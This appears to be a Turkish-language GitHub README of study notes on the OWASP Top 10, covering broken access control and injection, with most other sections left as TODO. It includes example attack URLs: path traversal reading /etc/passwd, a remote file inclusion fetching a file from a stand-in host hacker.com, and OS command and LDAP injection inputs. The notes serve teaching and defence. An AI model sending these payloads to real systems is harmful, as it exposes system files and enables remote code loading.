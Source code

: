 # İçerik
- [x] A01: Broken Access Control
- [ ] A02: Cryptographic Failures
- [ ] A03 Inejcttion
- [ ] A04 Insecure Design
- [ ] A05 Security Misconfiguration
- [ ] A06 Vulnerable and Outdated Components
- [ ] A07 Identification and Authentication Failures 
- [ ] A08 Software and Data Integrity Failures
- [ ] A09 Security Logging and Monitoring Failures
- [ ] A10 Server Side Request Forgery (SSRF)

--- 

# A01:2021 -  Bozuk Erişim Kontrolü ( Broken Access Control)
Erişim kontrolü kullanıcıların yetkileri dışına çıkmamalarını sağlamaktadır. Yetkisiz kullanıcının, yetkisi dışında gerçekleştirebildiği işlemler bu güvenlik açığını ortaya çıkarmaktadır. Erişim denetimleri birçok yöntem ile bypass edilebilmektedir. **Authentication** (kimlik doğrulama) ve **Authorization** (yetkilendirme), konuyla ilgili çnemli kavramlardır. Kimlik doğrulama, kullanıcının kim olduğunun doğrulandığı işlemdir. Yetkilendirme işlemi ise kullanıcının kimliğine göre yetkilerin kontrol edilmesidir. Erişim kontrolü, kullanıcının gerçekleştireceği işlemi yapıp yapamayacağını belirlemektedir. Erişim Denetim Türleri üç kategoride incelenebilmektedir.
	1. Vertical Access Control (Dikey Erişim Kontrolü): Bu kontrol mekanizmasında, normal kullanıcıların yönetici izinlerini kullanmasına izin vermez.Kullanıcı türüne göre yetkilendirme yapılabilir.
	2. Horizontal Access Control (Yatay Erişim Kontrolü):  Kullanıcıların kaynakları ayrıdır. Bir kullanıcı başka bir kullanıcının kaynaklarına ve yetkilerine erişim sağlayamaz.
	3. Context-Dependent Access Control (Bağlamsal Erişim Kontrolü): Kullanıcının gerçekleştiği işlemlerin sırasına göre yetkilendirme işlemi gerçekleşmektedir. Örneğin, kullanıcı sepetine ürün ekleme/çıkarma gibi işlemleri gerçekleştirebilir. Ödeme yapıldıktan sonra satın aldığı ürünleri değiştirememesi gerekir.

## Güvenlik açıklıkları
- URL veya HTML sayfasında değişiklik yapma, API isteklerini düzenleme 
- Başka  bir kullanıcıya ait eşsiz id ile hesap üzerinde düzenleme yapabilme, IDOR zafiyeti (insecure direct object references)
- Yetki yükselterek admin haklarına sahip olma veya giriş yapmadan varsayılan kullanıcı haklarına sahip olma
- Metadata manipülasyonları, JSON Web Token geçersizleştirme
- CORS(Cross Origin Resource Sharing) konfigurasyonlarının eksik yapılması. CORS, istekleri farklı domain(etki alanına) göndermeyi sağlayan yapıya denir. 

## Önlemler
Erişim kontrolü, sunucu tarafının güvenilir olmasıyla veya server-less(sunucusuz) API kullanımı ile kullanışlı durumdadır.Erişim kontolü olası güvenlik saldırılara karşı,
- Erişim kontrol hataları loglanması
- Web sunucu dizinlerini devre dışı bırakmak yedekleme dosyalarını bu dizinde bulundurmamak
- Durum bilgisini içeren tanımlayıcılar oturum kapatıldıktan sonra geçersiz duruma gelmelidr. Durum bilgisi taşımayan JWT tokenleri geçerlilik süreleri kısa tutulmalı
- Her istekte izinlerin doğrulanması
- Erişim izinlerinin varsayılan olarak kapalı olması 
- Bağlantı adresi içerisindeki id parametresi değiştirilemese bile erişilmez olması gerekmektedir.
- 

Note:
JWT(JSON Web Token) json objelerini kullanarak uygulama ve kullanıcı arasında güvenli veri taşımayı sağlar ve taşıdığı verinin bütünlüğünü doğrulayabilmektedir.Oturum yönetimi için kullanılır. Giriş yapan her kullanıcı tokene sahiptir böylece hangi izinlere sahip olduğu içerisinde  belirtilir. Brute force yöntemini kullanarak dizin listeleme yaparak token doğrulama,XXE, CSRF saldırıları ile anahtar değeri sızdırılabilir. JWT, başlık, payload, imza şeklinde 3 parçadan oluşur ve encode edilmiş haldedir. https://jwt.io/ sitesinde örnek gösterimi bulunmaktadır.

## Örnek Saldırı Senaryoları

- Uygulama içerisinde hesap bilgilerine erişilen kısımda doğrulanmamış verilerin kullanılması, tehdit aktörünün bağlantı adresindeki id parametresini değiştirerek herhangi bir hesaba erişmesine neden olabilir. 
- Admin sayfasına erişim sağlayabilmesi (örneğin, `https://target.com/admin` gibi)
- Directory Traversal File Include (Dizin veya dosya yolu geçişi) yani, bağlantı adresi ile sunucu içerisindeki dosyaya erişim sağlamak. Yerel ve uzaktan dosya dahil etme olarak iki türlü gerçekleşebilmektedir. LFI(Local File Inclusion), sunucu içerisinde yani yerelde bulunan dosyaları okuyabilme ve içeriğine erişebilme işleminin gerçekleşmesidir. Örneğin,  `http://example.com/getUserProfile.jsp?item=../../../../etc/passwd` şeklinde yapılan aramada kullanıcıların giriş bilgilerini tutan dosyaya erişim sağlanabilir eğer LFI zafiyeti bulunuyorsa. RFI(Remote File Inclusion), zafiyetinde ise uzak sunucudan dosya yüklenebilmesi ve çalıştırılmasıdır. Örnek olarak `http://example.com/index.php?file=http://hacker.com/malicious.txt` . Tehdit aktörü, sunucu içerisine hacker.com adresinden malicious.txt isimli dosyayı yüklemektedir. Atlatma yöntemlerinde encoding işlemleri de gerçekleşmektedir.


## İlgili CWE Sayısı
34 tanedir

---
# A02:2021 Cryptographic Failures (Kriptografik Hatalar)

- [ ] TODO

---
# A03:2021 Injection

## Güvenlik açıklıkları
Injection zafiyeti, kullanıcıdan gelen girdinin kontrol edilmemesinden kaynaklanmaktadır. Kötü amaçlı kullanıcı SQL sorgusu, zararlı komutlar çalıştırabilir veya zararlı dosya yüklemesi ile uzaktan komut çalıştırabilir. Bunun gibi birçok saldırı senaryoları bulunmaktadır.  Injection çeşitleri olarak,
- **SQL injection:** Kullanıcı tarafından uygulamada bulunan veri girdisinde SQL sorgu cümlesinin enjekte edilmesi veya çalıştırılabilmesidir. Bu işlem sonucunda, veritabanı içerisinden hassas bilgilere erişilebilir, içeriği değiştirebilir. Böylece veri bütünlüğü bozulmuş olur.  
- **OS command injection:** Web sunucusu üzerinde işletim sistemi komutlarının çalıştırılabilmesidir. Bu sayede zararlı aktiviteler gerçekleştirilebilir, işletim sistemi içerisindeki şifre gibi hassas bilgilere ulaşabilir. Url sonuna `%3B` yani komut ayırıcı olarak kullanılan  `;` işareti eklenir . Örneğin, `http://sensitive/something.php?dir=%3Bcat%20/etc/passwd` . Bu istek sonucunda istenen dosya içeriğine ulaşılabiliyorsa bu zafiyet meydana gelmiştir. Bu gibi hassas işletim sistemi komutlarının tespiti gerçekleşebilmektedir. 
- LDAP Injection: kullanıcının girdisine bağlı olarak LDAP ifadelerin oluşmasıdır. Kullanıcının hesabının doğrulanması için LDAP kullanılması ve LDAP sorgularının güvenli olmaması bu iki faktör LDAP injection güvenlik açığına neden olmaktadır. LDAP sorguları SQL sorgulara benzetilmektedir. LDAP protokolü, kullanıcı hakkında bilgileri depolamaktadır. Sunucu tarafından gerçekleşen saldırı türüdür(server-side attack). Web uygulamaları kullanmaktadır. Başarılı gerçekleşen LDAP injection saldırısında LDAP arama  filtreleri metakarakerler uygulama içerisinde çalıştırılarak LDAP'ın depoladığı kullanıcı bilgilerine erişim sağlanabilir veya değiştirilebilir. Örneğin, yapılan http isteği şu şekilde olsun `http://www.example.com/ldapsearch?user=John` , John yerine  `*` işaretini koyarsak, arama filtresi  `searchfilter="(cn=*)"` böyle olur ve uygulamaya göre kaydedilen  tüm kullanıcı bilgilerine erişim sağlanabilir.  `cn` , `uid` , `homeDirectory`  gibi  paramtereler ile hangi dizinde olduğu bile öğrenilebilir.


## Önlemler
Injection zafiyetinin önlenmesi için, 
- Geliştirilen uygulama içerisinde veri girişlerinin bazı araçlar ile test edilmesi
- Verilerin sunucu tarafında doğrulamasının yapılması  
- Veritabanı sorguları için özel karakterlerden kaçınılması
- LDAP için tüm değlerden kaçınarak LDAP encoding işleminin yapılması. OWASP ZAP bu zafiyeti otomatik olarak tespit edebilmektedir.
- Kullanıcı girdi doğrulaması yapılırken tehlikeli olabilen  `& | ; $ > < \  ` gibi işaretlerin içermediği izin verilen karakterler listesi kullanılabilir. Kullanıcıdan istenen girdiye göre harf veya sayı ile sınırlandırılabilir ayrıca girdinin karakter sayısı aralığı da belirlenerek injection riski azaltılabilir.

## Örnek Saldırı Senaryoları

- [ ] TODO:

---

# A04: Insecure Design

- [ ] TODO

---
# Kaynak 
- [OWASP TOP 10](https://owasp.org/Top10/)
* [JWT Nedir?](https://medium.com/bili%C5%9Fim-hareketi/json-web-tokens-jwt-nedir-4d10c7e692f4)
* [JWT Nedir, Güvenlik Kontrolleri Nasıl Yapılandırılır?](https://medium.com/trendyol-tech/jwt-nedir-g%C3%BCvenlik-kontrolleri-nas%C4%B1l-yap%C4%B1l%C4%B1r-3421ebc33989)
* [Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html)
* [A Comprehensive Guide to Broken Access Control](https://www.prplbx.com/resources/blog/broken-access-control/)
* [Local File İnclusion Nedir ?](https://murat-mdk64.medium.com/local-file-i%CC%87nclusion-nedir-9afd23473405)
* 


